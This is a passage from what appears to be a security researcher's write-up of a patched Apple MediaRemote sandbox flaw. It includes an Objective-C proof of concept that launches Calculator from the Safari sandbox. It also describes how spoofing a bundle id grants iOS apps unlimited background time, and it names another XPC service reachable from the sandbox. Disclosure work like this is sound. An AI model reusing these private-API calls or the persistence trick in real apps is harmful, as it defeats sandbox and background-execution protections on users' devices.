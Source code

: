 Now let's pop a Calculator from Safari sandbox in only few lines of code!

```objc
extern id MRNowPlayingClientCreate(NSNumber*, NSString *);
extern id MRMediaRemoteSendCommandToClient(int, NSDictionary*, id, id, int, int, id);
id client = MRNowPlayingClientCreate(nil, @"com.apple.calculator");
NSDictionary *args = @{@"kMRMediaRemoteOptionDisableImplicitAppLaunchBehaviors" : @NO};
MRMediaRemoteSendCommandToClient(2, args, nil, client, 1, 0, ^void(unsigned int a1, CFArrayRef a2) {});
```

![](/img/2020-05-27-revisiting-an-old-mediaremote/calc.png)

Another interesting fact about it is that MediaRemote has side effects on iOS background apps. Usually third party apps have limited background execution time:

[Extending Your App's Background Execution Time](https://developer.apple.com/documentation/uikit/app_and_environment/scenes/preparing_your_ui_to_run_in_the_background/extending_your_app_s_background_execution_time?language=objc)

If you periodically abuse this piece of code and spoof the bundle id to your own app, MediaRemote will grant you unlimited background time. This trick does not require any special entitlements, playing media quietly, or GPS. When you have more than one app you can even implement watchdogs for each other. Once activated, they become immortal unless you turn off the phone.

This bug has been completly patched after I gave the talk on TyphoonCon.

Yeah, at this point I can launch arbitrary installed applications, even Xcode. But it makes no sense at all if you can't execute a downloaded payload. Back then I couldn't find a way to register a custom app, but lately I learned something interesting that might bring it back to life.

Here is another useless sandbox voilation I reported to Apple. Apple did not publish any advisory about it. It's just another service that is reachable from Safari sandbox:

> /System/Library/Frameworks/ApplicationServices.framework/
> Versions/A/Frameworks/HIServices.framework/Versions/A/XPCServices/
> com.apple.hiservices-xpcservice.xpc/Contents/MacOS/com.apple.hiservices-xpcservice
